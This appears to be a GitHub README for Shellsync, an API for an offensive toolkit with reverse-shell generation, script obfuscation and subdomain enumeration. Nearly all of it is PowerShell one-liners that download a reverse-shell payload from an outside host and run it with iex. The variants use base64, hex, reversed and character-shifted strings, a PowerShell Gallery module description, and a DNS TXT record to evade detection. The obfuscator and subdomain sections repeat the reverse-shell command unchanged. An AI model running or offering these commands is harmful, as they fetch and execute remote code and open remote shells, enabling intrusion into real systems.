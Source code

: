 Shellsync was put together to give Api access to tooling created by Unit 259 

[Demo'd here in David Bomball Video](https://www.youtube.com/watch?v=JFWnMMte3f0)

Tools: 
1. Reverse Shell Generator 
2. Script Obfuscator 
3. Script Minimizer
4. SubDomain Enumerator

# Reverse Shell Generator

<details>
  <summary>Click to expand!</summary>

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}' -Method POST | iex
```

### Add Encoding Options with `e` Parameter

| Parameter       | Encoding        |
|-----------------|-----------------|
| b               | Base 64         |
| h               | Hex             |
| u               | Url             |
| a               | Ascii           |
| 0               | Binary          |
| r               | Reverse         |
| x               | Aes Encryption  |
| p               | Padding         |
| s               | Shift {$num}    |
| l               | Shellcode       |


## Parameters are passed individually through a switch statement so you can stack these encoding options

```powershell
irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e={ENCODING}' -Method POST | iex
```

### Base64 Execution 

```powershell
[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=b' -Method Post))) | clip; gcb | iex
```

### Hex Execution 

```powershell
-join([char[]]((irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=h' -Method Post) -split '(..)' | ? { $_ } | % { [convert]::ToInt32($_,16) })) | iex
```

### Reverse Execution 

```powershell
$charArray = (irm 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=r' -Method Post).ToCharArray();[Array]::Reverse($charArray);-join $charArray | iex
```

### PsGallery Execution

```powershell
[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((find-module example).Description)) -replace '[^\x20-\x7E]' | iex
```

### DNS Txt Record

```powershell
resolve-DnsName rev.website.com -Ty TXT | % { $_.Strings -join "" } | iex
```

### Base64 + Shift 2

```powershell
$en=$(irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}&e=b' -Method post);$sa=2;-join([char[]]$en|%{if($_-cmatch'[A-Za-z0-9]'){$nc=[int]$_-$sa;if($_-cmatch'[A-Z]'){$nc=(($nc-[int][char]'A'+26)%26)+[int][char]'A'}elseif($_-cmatch'[a-z]'){$nc=(($nc-[int][char]'a'+26)%26)+[int][char]'a'}elseif($_-cmatch'[0-9]'){$nc=(($nc-[int][char]'0'+10)%10)+[int][char]'0'};[char]$nc}else{$_}})|%{[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($_))}|clip;gcb|iex
```

</details>

# PS Script Obfuscator

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}' -Method POST | iex
```


# Enumerate Subdomains
[WebApp Version](https://powershellforhackers.com/tools/subdomain/enumerator)

### Basic Api call

```powershell
irm -Uri 'https://shellsync.app/api1/revshell?i={$IP}&p={$PORT}&key={$ApiKey}' -Method POST | iex
```









